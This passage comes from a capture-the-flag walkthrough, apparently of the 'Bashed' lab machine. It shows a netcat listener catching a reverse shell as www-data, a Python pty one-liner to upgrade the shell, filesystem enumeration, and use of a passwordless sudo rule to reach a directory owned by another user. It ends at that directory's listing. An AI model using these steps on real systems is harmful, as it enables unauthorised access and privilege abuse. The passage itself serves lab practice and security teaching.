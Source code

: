 <div style="text-align: justify;">Back on my kali machine i now had shell as www-data</div>
<pre>[root:~]# nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.68] 39788
/bin/sh: 0: can't access tty; job control turned off
$</pre>
It looks horrible and quite limited. I spawned a new tty shell by running the following
<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>
<div style="text-align: justify;">New prompt</div>
<pre>www-data@bashed:/var/www/html/dev$</pre>
<div style="text-align: justify;">That looks a bit better though it doesnt really give us more functionality ( that i can tell ).</div>
<div style="text-align: justify;">After exploring the box a bit i found this really interesting</div>
<pre>www-data@bashed:/$ ls -l
ls -l
total 80
drwxr-xr-x 2 root root 4096 Dec 4 11:22 bin
drwxr-xr-x 3 root root 4096 Dec 4 11:17 boot
drwxr-xr-x 19 root root 4240 Apr 1 14:08 dev
drwxr-xr-x 89 root root 4096 Dec 4 17:09 etc
drwxr-xr-x 4 root root 4096 Dec 4 13:53 home
lrwxrwxrwx 1 root root 32 Dec 4 11:14 initrd.img -&gt; boot/initrd.img-4.4.0-62-generic
drwxr-xr-x 19 root root 4096 Dec 4 11:16 lib
drwxr-xr-x 2 root root 4096 Dec 4 11:13 lib64
drwx------ 2 root root 16384 Dec 4 11:13 lost+found
drwxr-xr-x 4 root root 4096 Dec 4 11:13 media
drwxr-xr-x 2 root root 4096 Feb 15 2017 mnt
drwxr-xr-x 2 root root 4096 Dec 4 11:18 opt
dr-xr-xr-x 148 root root 0 Apr 1 14:08 proc
drwx------ 3 root root 4096 Dec 4 13:03 root
drwxr-xr-x 18 root root 520 Apr 2 06:25 run
drwxr-xr-x 2 root root 4096 Dec 4 11:18 sbin
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Apr 4 04:26 scripts
drwxr-xr-x 2 root root 4096 Feb 15 2017 srv
dr-xr-xr-x 13 root root 0 Apr 2 04:53 sys
drwxrwxrwt 10 root root 4096 Apr 4 06:57 tmp
drwxr-xr-x 10 root root 4096 Dec 4 11:13 usr
drwxr-xr-x 12 root root 4096 Dec 4 11:20 var
lrwxrwxrwx 1 root root 29 Dec 4 11:14 vmlinuz -&gt; boot/vmlinuz-4.4.0-62-generic
www-data@bashed:/$</pre>
<div style="text-align: justify;">There’s something out of place here. The /scripts directory looks strange. Its not normally a directory that is on the root of a linux file system. Also the user scriptmanager is the only one that has access (excluding root - root always has access).</div>
<pre>www-data@bashed:/$ cd scripts
cd scripts
bash: cd: scripts: Permission denied
www-data@bashed:/$</pre>
<div style="text-align: justify;">Just to confirm i tried to cd into the directory as www-data and got a permission denied! Dammit! I dont like not getting access to something. I need to think how I can get in.</div>
<div style="text-align: justify;">I then remembered that I can sudo as scriptmanager, let’s use that privilege to view the /scripts directory</div>
<div style="text-align: justify;"><span style="color: #ff0000;">! Remember !</span></div>
<pre>User www-data may run the following commands on bashed:
 (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/$ sudo -u scriptmanager ls -al /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Feb 13 01:45 test.txt</pre>